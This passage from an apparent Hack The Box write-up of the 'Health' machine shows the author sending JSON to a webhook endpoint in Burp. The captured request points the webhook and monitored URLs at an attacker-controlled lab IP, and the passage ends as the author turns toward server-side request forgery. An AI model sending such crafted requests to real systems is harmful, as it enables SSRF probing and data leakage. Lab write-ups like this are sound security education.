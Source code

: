 I started playing with sending different payloads to the application. I found out I could send it json instead of a URL-encoded form. This made it easier to read and modify in Burp Repeater.

```http
POST /webhook HTTP/1.1
Host: target.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 224
Origin: http://target.htb
Connection: close
Referer: http://target.htb/
Cookie: XSRF-TOKEN=eyJpdiI6ImFsOEk3M21rVHVuTU8yRkwrc1JSeHc9PSIsInZhbHVlIjoieVBGWlc1WVBiVUFKdjV2MWRqQUorYWNxd0wwaFMwQUQ2RTFzRG9iSDJjb0lmUWJVS3dVa2RUZmtiUXBIUW85ckpZUUJVMGFPQXdERFFuaUR1SW1Mam5WUDhGSTNxdjIzWFhQVUZGcXExc2dsamJYdXhha0JBUmpXekFuR0tDN3YiLCJtYWMiOiJiMDdmMmNkMDM1ZGExMzM3OGUwMmJjNmFjNzA1NDYxNWYyYzkwOTIyNWRiZDkxZGU3M2ViY2JkM2MwNTg0MDIyIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6Ilk4M05WQWFmNVJSMVJoc2txNSt6Q0E9PSIsInZhbHVlIjoiZFVzOFAweStjMm9ENHZnL3VBQkMvZ1RLeVphTVovNW9PSFplYnpQeTBuTjBRKzlPRkQyb213dVN3bEhRWXNSemFqR1k1TXU0YW1ZRXhKZk85WEJmcVR4ZXZiVjVnNkR6b0Rwdno1aWI4dmI2UkQyVXhYa0JIMzBDUXlRcG54N2EiLCJtYWMiOiJkN2Q3YmE0NGFhNTRhN2YyNWFmZTQ4OWU3YTYyNzY5NjY5N2RlMzYzMGUxN2U4YzMzMGZiNjU5MzQ3ZWZmODZlIiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1

{
	"_token": "6RWanPgljj9laRaM3gHG9xNHPgibNdgtqUeN0EDO",
	"webhookUrl": "http://10.10.14.6:8000/payload",
	"monitoredUrl": "http://10.10.14.6/monitored",
	"frequency": "* * * * *",
	"onlyError": 0,
	"action": "Test"
}
```

I also saw that if the monitored website was up, the content was sent to the webhook.

```json
{
  "webhookUrl":"http:\/\/10.10.14.6:8000\/payload",
  "monitoredUrl":"http:\/\/10.10.14.6\/monitored",
  "health":"up",
  "body":"<html>\n<body>\nTest\n<\/body>\n<\/html>\n",
  "message":"HTTP\/1.0 200 OK",
  "headers":{"Host":"10.10.14.6","Date":"Thu, 05 Jan 2023 11:48:36 GMT","Connection":"close","Content-Type":"text\/html; charset=UTF-8","Content-Length":"35"}
}
```

I thought I could use [Server-Side Request Forgery (SSRF)](https://portswigger.net/web-security/ssrf) to read from the web server.

I tried monitoring things like localhost, and files on the server. But they were rejected.

![Errors](/assets/images/Health/Errors.png "Errors")
